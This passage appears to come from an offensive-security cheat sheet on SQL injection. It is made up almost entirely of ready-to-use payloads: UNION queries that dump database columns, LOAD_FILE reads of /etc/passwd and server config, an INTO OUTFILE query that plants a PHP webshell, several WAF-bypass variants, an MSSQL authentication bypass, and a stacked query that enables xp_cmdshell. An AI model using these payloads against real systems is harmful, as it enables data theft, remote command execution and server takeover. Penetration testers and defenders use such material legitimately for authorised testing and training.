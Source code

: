 ```
```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

#### Webshell via SQLI - MySQL
-> view web server path  
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
```
-> creating webshell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```

#### Reading Files via SQLI - MySQL
e.g  
```
SELECT LOAD_FILE('/etc/passwd')
```
	
### WAF and Filter Bypass
#### Query default:
```
'UNION SELECT 1,name,3,4 from users; -- -
```

#### UNHEX - hexadecimal
```
```

#### Add comment /* */ for space bypass
```
'UNION/**/SELECT/**/1,name,3,4/**/from/**/users; -- -
```

#### Add comment /*! */ in query for filters bypass
```
'/*!UNION SELECT*/ 1,group_concat(name),3,4 from users; -- -
```

#### Add random case
```
`'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -
```

#### Example of mix:
```
'/*!UnIoN/**/SeLeCt/**/1,GroUp_ConCat(nAmE),3,4/**/FrOm/**/users; -- -
```

#### Other Techniques:
-> urlencode;  
-> Scientifc Notation;  
-> hexadecimal, substr, etc...  

### MSSQL Injection

-> Bypass Authentication
```
' or 1=1--
```

-> Enable xp_cmdshell
```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

```